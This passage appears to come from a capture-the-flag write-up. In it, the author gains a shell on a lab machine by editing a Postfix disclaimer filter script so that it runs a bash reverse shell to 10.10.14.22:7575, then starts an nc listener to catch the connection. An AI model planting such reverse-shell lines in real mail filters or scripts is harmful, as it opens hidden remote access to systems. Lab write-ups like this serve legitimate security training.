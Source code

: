 Looking at the disclaimer addresses `/etc/postfix/disclaimer_addresses` we see who we have to write an email as.

```
kyle@writer:~$ cp /etc/postfix/disclaimer .
kyle@writer:~$ vi disclaimer
```

First we need to modify the current disclaimer script to contain a reverse shell.

`disclaimer`
```bash
#!/bin/sh
# Localize these.
bash -c 'bash -i >& /dev/tcp/10.10.14.22/7575 0>&1'
INSPECT_DIR=/var/spool/filter
SENDMAIL=/usr/sbin/sendmail

# Get disclaimer addresses
DISCLAIMER_ADDRESSES=/etc/postfix/disclaimer_addresses

# Exit codes from <sysexits.h>
EX_TEMPFAIL=75
EX_UNAVAILABLE=69

# Clean up when done or when aborting.
trap "rm -f in.$$" 0 1 2 3 15

# Start processing.
cd $INSPECT_DIR || { echo $INSPECT_DIR does not exist; exit
$EX_TEMPFAIL; }

cat >in.$$ || { echo Cannot save mail to file; exit $EX_TEMPFAIL; }

# obtain From address
from_address=`grep -m 1 "From:" in.$$ | cut -d "<" -f 2 | cut -d ">" -f 1`

if [ `grep -wi ^${from_address}$ ${DISCLAIMER_ADDRESSES}` ]; then
  /usr/bin/altermime --input=in.$$ \
                   --disclaimer=/etc/postfix/disclaimer.txt \
                   --disclaimer-html=/etc/postfix/disclaimer.txt \
                   --xheader="X-Copyrighted-Material: Please visit http://www.company.com/privacy.htm" || \
                    { echo Message content rejected; exit $EX_UNAVAILABLE; }
fi

$SENDMAIL "$@" <in.$$

exit $?
```

Then we set up our listener.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```
